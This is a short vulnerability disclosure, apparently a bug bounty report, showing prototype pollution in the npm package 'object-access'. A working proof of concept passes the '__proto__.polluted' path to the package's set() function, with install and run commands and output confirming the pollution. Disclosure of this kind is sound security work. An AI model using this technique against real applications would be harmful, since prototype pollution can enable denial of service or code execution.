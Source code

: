 # Description

`object-access` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('object-access')

console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i object-access # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

